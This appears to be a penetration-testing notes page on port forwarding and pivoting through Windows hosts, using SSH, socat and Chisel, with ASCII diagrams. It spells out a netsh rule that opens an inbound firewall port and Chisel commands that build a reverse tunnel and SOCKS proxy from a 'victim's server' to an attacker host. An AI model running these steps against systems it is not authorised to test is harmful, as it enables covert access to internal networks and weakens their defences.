 ```yaml
---
title: Windows port forwarding
---
```


## Port forwarding via SSH
SSH can be used to perform tunneling. Nowadays Windows is distrubuted with the OpenSSH client included by default.

### Remote port forwarding

```plaintext
   IP1                  IP2 (pivot)           IP3
|'''''''|            |'''''''|             |'''''''|
| port1 | ---------> |  SSH  | ----------> | port3 | 
|,,,,,,,|            |,,,,,,,|             |,,,,,,,|
```

```powershell
ssh <user1>@<ip1> -R <port1>:<ip3>:<port3> -N
```

Now the `ip3:port3` is available from ip1 on `user1@localhost:port1`. Port numbers don't need to match. Local port `localhost:9999` can be forwarded to the remote RDP `1.1.1.1:3389` service.

### Local port forwarding

```plaintext
   IP1                 IP2 (pivot)            IP3
|'''''''|            |'''''''|             |'''''''|
| port1 | <--------- | port2 | <---------- |,,,,,,,| 
|,,,,,,,|            |  SSH  |             
                     |,,,,,,,|
```

```powershell
ssh <user1>@<ip1> -L *:<port1>:127.0.0.1:<port2>
```

Now the `ip1:port1` is available from `ip3` via `ip2:port2`. In other words, `ip2:port2` points to `ip1:port1`.

## Port forwarding with Socat
Socat allows to forward ports in a simpler way than SSH but it have to be transfered to the pivot host.

```plaintext
   IP1                 IP2 (pivot)            IP3
|'''''''|            |'''''''|             |'''''''|
|,,,,,,,| ---------> | port2 | ----------> | port3 | 
                     |  SSH  |             |,,,,,,,|
                     |,,,,,,,|
```

Socat performs some kind of a reversed _local port forwarding_. It opens local (IP2 pivot) port. It's easier than connecting to the IP1 directly but it might require to create a firewall rule to allow any connections to the opened port.

```powershell
socat TCP4-LISTEN:<port2>,fork TCP4:<ip3>:<port3>
```

Now the `ip3:port3` is available via `ip2:port2`. To open the pivot's port:

```powershell
netsh advfirewall firewall add rule name="Open Port <port2>" dir=in action=allow protocol=TCP localport=<port2>
```

## Chisel tool
[Chisel](https://github.com/jpillora/chisel) is a swiss-knife tool (Linux and Windows) for any kind of a port forwarding.

### Reverse port-forwarding
It makes connection from the server to the attacker host.

```bash
# 1. Run on attacker's host
chisel server --reverse --port 9001

# 2. Run on victim's server (forward :local-port to :open-port)
chisel client <attacker-ip>:9001 R:<open-port>:127.0.0.1:<local-port>

# 3. Now open in browser: http://localhost:<open-port>
```

### Reverse port-forwarding using SOCKS proxy
It is useful if we want to access many ports on the victim's machine.

```bash
# 1. Run on attacker's host
chisel server --reverse --port 9001

# 2. Run on victim's server (forward socks to :open-port)
chisel client 10.0.0.1:9001 R:<open-port>:socks

# 3. Add following line in /etc/proxychains4.conf
socks5 127.0.0.1 <open-port>
```

Now you can use `proxychains` before every command to tunnel the requests to the victim's server. There is also configuration in the `Burp Suite` for that purpose.
